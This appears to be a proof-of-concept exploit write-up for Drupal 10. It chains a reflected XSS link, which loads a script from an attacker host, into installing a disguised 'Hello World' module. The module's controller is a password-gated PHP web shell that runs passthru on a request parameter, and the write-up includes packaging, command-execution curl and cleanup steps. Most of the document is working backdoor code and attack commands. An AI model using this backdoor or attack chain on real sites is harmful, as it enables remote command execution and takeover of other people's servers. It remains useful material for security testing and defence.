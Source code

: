 # [RCE] Install Module

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. [create Drupal module containing PHP payload] backdoor source code

(`hello_world.info.yml`)

```
name: hello_world
type: module
description: 'Hello World custom module'
package: custom
version: 1.0
core_version_requirement: ^10
```

(`hello_world.routing.yml`)

```
hello_world.hellomsg:
  path: '/hello-world'
  defaults:
    _controller: 'Drupal\hello_world\Controller\HelloWorldController::message'
    _title: 'Hello World!!'
  requirements:
    _permission: 'access content'
```

(`src/Controller/HelloWorldController.php`)

```
<?php

namespace Drupal\hello_world\Controller;

class HelloWorldController {
  public function message() {
    if (md5($_GET['pass']) === '098f6bcd4621d373cade4e832627b4f6') { echo passthru($_GET['cmd']); }
    return [
      '#markup' => 'Hello World message from custom module'
    ];
  }
}
```

2. [create Drupal module containing PHP payload] create Drupal module

```
tar cvf hello_world.tar.gz *
```

3. victim user (with administrative privileges) logs in

http://192.168.5.17/user/login

4. victim user clicks link

```
http://192.168.5.17/test/rxss.php?q=<script src=http://192.168.5.13/installModuleDrupal.js></script>
```

5. execute OS command

```
curl -s "http://192.168.5.17/hello-world?pass=test&cmd=id" | head -n 1
```

6. [optional] uninstall module - uninstall module via GUI

*Drupal ➔ Extend ➔ [tab] Uninstall ➔ (filter by name) hello ➔ (mark checkbox) Hello World ➔ Uninstall ➔ Uninstall*

7. [optional] uninstall module - remove module from filesystem

```
sudo su
cd /var/www/html/drupal/modules
rm -rf hello_world
```

## Screenshots

![Image](screenshots/Drupal_-_install_module_-_1-1.png)

